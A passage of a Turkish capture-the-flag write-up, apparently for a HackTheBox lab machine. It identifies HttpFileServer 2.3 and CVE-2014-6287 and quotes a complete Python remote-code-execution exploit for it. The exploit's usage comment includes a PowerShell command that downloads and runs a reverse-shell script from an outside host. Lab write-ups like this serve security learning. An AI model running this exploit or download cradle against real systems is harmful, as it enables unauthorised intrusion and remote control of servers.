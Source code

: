 nmap hostu Windows olarak tanımlıyor, ancak HTTP sunucusu IIS'e benzemiyor, bu nedenle işletim sistemi sürümünü öğrenmek zor.


### Website - TCP 80

#### Site

Web sitesi tam da nmap komut dosyalarının tanımladığı şeydir - HttpFileServer (HFS):

![Pasted image 20250209174813.png](/img/user/resimler/Pasted%20image%2020250209174813.png)

Bazı basit cred tahminlerini denedim ama olmadı.

#### Vulnerabilities

Sayfanın en altında çalışan HFS'nin tam sürümü veriliyor, 2.3. searchsploit'in bu sürüm için bir exploit var:

![Pasted image 20250209175000.png](/img/user/resimler/Pasted%20image%2020250209175000.png)

Bu güvenlik açığı CVE-2014-6287 olarak bilinmektedir.

## Shell as kostas

### Exploit Analysis

Exploit'e bakmak için searchsploit -x windows/webapps/49125.py kullanarak, inanılmaz derecede basittir:

```
#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
        http = urllib3.PoolManager()    
        url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
        print(url)
        response = http.request('GET', url)
        
except Exception as ex:
        print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
        print(ex)
```
